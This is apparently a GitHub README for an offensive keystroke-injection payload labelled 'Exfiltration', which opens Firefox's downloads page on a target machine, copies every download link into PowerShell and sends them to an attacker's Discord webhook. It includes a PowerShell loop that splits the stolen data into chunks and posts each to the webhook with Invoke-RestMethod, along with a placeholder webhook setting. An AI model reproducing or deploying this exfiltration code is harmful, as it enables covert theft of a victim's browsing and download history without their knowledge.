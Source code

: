 # Exports all the links of the downloads

This script can be used to export all the links of the latest downloads made through Firefox.

**Category**: Exfiltration

## Description

This script can be used to export all the links of the latest downloads made through Firefox.

This script open the Firefox app, then go to downloads page and copy all, then open a PowerShell and put all the download link in a var named $DOWNLOADS, then use a Discord Webhook to exfiltrate it.

## Dependencies

* Firefox must be installed
* Internet connection

## Settings

- You must define your Discord webhook if you want to use this method for the exfiltration

  ```shell
  DISCORD_WEBHOOK='example'
  ```

- This delay depends on the number of links

  ```plaintext
  [48] DELAY 5000
  ```

- This algorithm is used to avoid the size limit imposed by Invoke-RestMethod on the payload length

  ```powershell
  $len = $DOWNLOADS.Length
      $MAX_LEN = 1900

      $ITERATIONS = [math]::Ceiling($len / $MAX_LEN)

      for ($i = 0; $i -lt $ITERATIONS; $i++) {
          $init = $i * $MAX_LEN
          $end = [math]::Min(($i + 1) * $MAX_LEN, $len)
          
          $sub = $DOWNLOADS.Substring($init, $end - $init)
          $Payload = @{content = $sub} | ConvertTo-Json

          Invoke-RestMethod -Uri $WebhookUrl -Method Post -Body $Payload -ContentType 'application/json'
      }
  ```
    
## Credits

<h2 align="center"> Aleff :octocat: </h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://github.com/aleff-github">
        <img src=https://github.com/aleff-github/aleff-github/blob/main/img/github.png?raw=true width="48" height="48" />
      </a>
      <br>Github
    </td>
    <td align="center" width="96">
      <a href="https://www.linkedin.com/in/alessandro-greco-aka-aleff/">
        <img src=https://github.com/aleff-github/aleff-github/blob/main/img/linkedin.png?raw=true width="48" height="48" />
      </a>
      <br>LinkedIn
    </td>
  </tr>
</table>
</div>
